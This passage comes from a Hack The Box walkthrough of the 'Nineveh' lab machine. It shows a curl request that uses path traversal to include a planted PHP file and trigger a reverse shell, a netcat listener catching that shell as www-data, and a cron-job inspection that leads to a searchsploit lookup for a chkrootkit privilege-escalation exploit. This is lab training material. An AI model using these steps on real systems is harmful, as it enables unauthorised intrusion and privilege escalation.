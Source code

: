 ```
┌──(Hades㉿10.10.14.5)-[2.0:28.3]~
└─$ curl --silent --cookie "PHPSESSID=qe89kahpkithaplfechcptbjt5" "http://nineveh.htb/department/manage.php?notes=../../../../../var/tmp/ninevehNotes.php&cmd=$cmd" > /dev/null
```

Reverse shell at listener.

```
┌──(Hades㉿10.10.14.5)-[2.0:28.4]~
└─$ sudo nc -nvlp 443
listening on [any] 443 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.43] 37498
bash: cannot set terminal process group (1390): Inappropriate ioctl for device
bash: no job control in this shell
www-data@nineveh:/var/www/html/department$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@nineveh:/var/www/html/department$
```

## Privilege Escalation

### Chkrootkit File overwrite

[*Poc code here*](https://github.com/leecybersec/walkthrough/tree/master/hackthebox/nineveh)

I use script `procmon.sh` to check the scheduled tasks in the system.

```
www-data@nineveh:/tmp$ bash procmon.sh
< sleep 1
> sleep 1
> /usr/sbin/CRON -f
> /bin/sh -c /root/vulnScan.sh
> /bin/bash /root/vulnScan.sh
> /bin/sh /usr/bin/chkrootkit
> find /lib /usr/lib /usr/local/lib -name libproc.a
```

There are command `chkrootkit` may have the vulnerable, find public exploit using `searchsploit`.

```
┌──(Hades㉿10.10.14.5)-[2.5:27.0]~
└─$ searchsploit chkrootkit
------------------------------------------------------ ---------------------------------
 Exploit Title                                        |  Path
------------------------------------------------------ ---------------------------------
Chkrootkit - Local Privilege Escalation (Metasploit)  | linux/local/38775.rb
Chkrootkit 0.49 - Local Privilege Escalation          | linux/local/33899.txt
------------------------------------------------------ ---------------------------------
Shellcodes: No Results
```

Follow exploit `linux/local/33899.txt`, I create reverse bash shell in file `/tmp/update` and add execute permission.
